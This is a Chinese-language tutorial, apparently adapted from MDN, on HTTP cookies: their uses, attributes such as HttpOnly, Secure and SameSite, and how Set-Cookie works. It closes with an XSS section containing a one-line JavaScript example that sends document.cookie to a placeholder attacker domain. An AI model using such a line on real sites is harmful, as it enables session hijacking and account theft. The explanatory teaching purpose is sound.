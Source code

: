 HTTP Cookie（也叫 Web Cookie 或浏览器 Cookie）是服务器发送到用户浏览器并保存在本地的一小块数据，它会在浏览器下次向同一服务器再发起请求时被携带并发送到服务器上（*这意味着是会被保存在本地的*）。通常，它用于告知服务端两个请求是否来自同一浏览器，如保持用户的登录状态。Cookie 使基于[无状态](https://developer.mozilla.org/en-US/docs/Web/HTTP/Overview#http_is_stateless_but_not_sessionless)的 HTTP 协议记录稳定的状态信息成为了可能。

Cookie 主要用于以下三个方面：

- 会话状态管理（如用户登录状态、购物车、游戏分数或其它需要记录的信息）
- 个性化设置（如用户自定义设置、主题等）
- 浏览器行为跟踪（如跟踪分析用户行为等）、

Cookie 曾一度用于客户端数据的存储，因当时并没有其它合适的存储办法而作为唯一的存储手段，但现在随着现代浏览器开始支持各种各样的存储方式，Cookie 渐渐被淘汰。由于服务器指定 Cookie 后，浏览器的每次请求都会携带 Cookie 数据，会带来额外的性能开销（尤其是在移动环境下）。新的浏览器 API 已经允许开发者直接将数据存储到本地，如使用 [Web storage API](https://developer.mozilla.org/zh-CN/docs/Web/API/Web_Storage_API) （本地存储和会话存储）或 [IndexedDB](https://developer.mozilla.org/zh-CN/docs/Web/API/IndexedDB_API) 。

| **参数**        | **描述**                                                     |
| --------------- | ------------------------------------------------------------ |
| Name            | cookie的名称，一旦创建，不可更改                             |
| Value           | cookie的值，若值为Unicode字符，需要为字符编码。若值为二进制数据，需要使用BASE64编码 |
| Domain          | 可以访问cookie的域名。如设置为。liu.com，以liu.com结尾的域名都可以访问这个cookie |
| Path            | cookie的使用路径，设置为/，则本禹铭下所有页面都可以访问这个cookie. |
| Expires/Max-Age | 有效时间                                                     |
| Size            | cookie的大小                                                 |
| HttpOnly        | 若此属性为true,则只会在HTTP头中有这个Cookie的信息，不能通过document.cookie来访问它 |
| Secure          | 指定cookie是否仅被使用安全协议传输，默认为false              |
| SameSite        | 用来限制第三方cookie,减少安全风险(防止CSRF攻击（CSRF攻击是：cookie存储用户的身份信息，恶意网站设法伪造带有正确cookie的HTTP请求）) |



###  创建cookie

当服务器收到 HTTP 请求时，服务器可以在响应头里面添加一个 [`Set-Cookie`](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Headers/Set-Cookie) 选项。浏览器收到响应后通常会保存下 Cookie，之后对该服务器每一次请求中都通过 [`Cookie`](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Headers/Cookie) 请求头部将 Cookie 信息发送给服务器。另外，Cookie 的过期时间、域、路径、有效期、适用站点都可以根据需要来指定。

![img](https://pic4.zhimg.com/80/v2-b9637047c96bb6ac934807a820dc7663_720w.jpg)

### XSS攻击

#### 什么是XSS

会话劫持，在 Web 应用中，Cookie 常用来标记用户或授权会话。因此，如果 Web 应用的 Cookie 被窃取，可能导致授权用户的会话受到攻击。常用的窃取 Cookie 的方法有利用社会工程学攻击和利用应用程序漏洞进行 [XSS (en-US)](https://developer.mozilla.org/en-US/docs/Glossary/Cross-site_scripting) 攻击。

```
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```
